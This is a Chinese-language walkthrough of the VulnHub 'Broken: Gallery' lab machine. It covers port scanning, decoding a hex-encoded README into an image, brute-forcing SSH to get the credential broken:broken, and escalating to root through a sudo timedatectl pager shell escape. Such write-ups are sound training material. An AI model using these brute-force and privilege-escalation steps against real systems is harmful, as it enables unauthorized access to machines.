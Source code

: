 # Broken: Gallery

2024-6-13 https://www.vulnhub.com/entry/broken-gallery,344/

difficulty: easy

## IP

192.168.10.197

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 395ebf8a49a313fa0d34b8db265779a7 (RSA)
|   256 20d772be306a2714e1e6c2167a40c852 (ECDSA)
|_  256 84a09a59612ab71edd6eda3b91f9a0c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
```

方位 80 web 服务，是个目录列表，4 个图片和一个 md 文件，http://192.168.10.197/README.md 其中显示的是十六进制的字符串，看到文件头的头几个字符 FF D8 FF E0 格式内容为 JPEG 文件，先将字符内容保存，然后用工具进行还原成 jpeg 图片

```
xxd -r -p img.txt > img.jpeg
```

内容如下：

```
Hello Bob,
The application is BROKEN ! the whole infrastructure is BROKEN !!
l am leaving for my summer vacation, l hope you get it fix soon ...
Cheers.
avrahamcohen.ac@gmail.com
```

说系统已经破坏，得到了 2 个用户名 bob 和 avrahamcohen

gobuster 目录爆破也没什么信息，只有看看那 4 个图片有没有隐写信息了，结果没有隐写。

试试 ssh 的暴力破解吧，没有其他的攻击面了，先使用用户名和密码是同样的字典，如果学在使用 rockyou 字典进行破解，用户名使用前面得到的 bob 和 avrahamcohen，还有几个图片的命名也比较奇怪，5terre forest lights mountains gallery BROKEN broken 能得到的字符全部加进去(broken 一直在强调)。

最后爆破得到 broken:broken 这个 ssh 凭据，进行登陆。

sudo -l

```
(ALL) NOPASSWD: /usr/bin/timedatectl
(ALL) NOPASSWD: /sbin/reboot
```

timedatectl 可以直接提权：

```
sudo timedatectl list-timezones
!/bin/bash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd /root
```
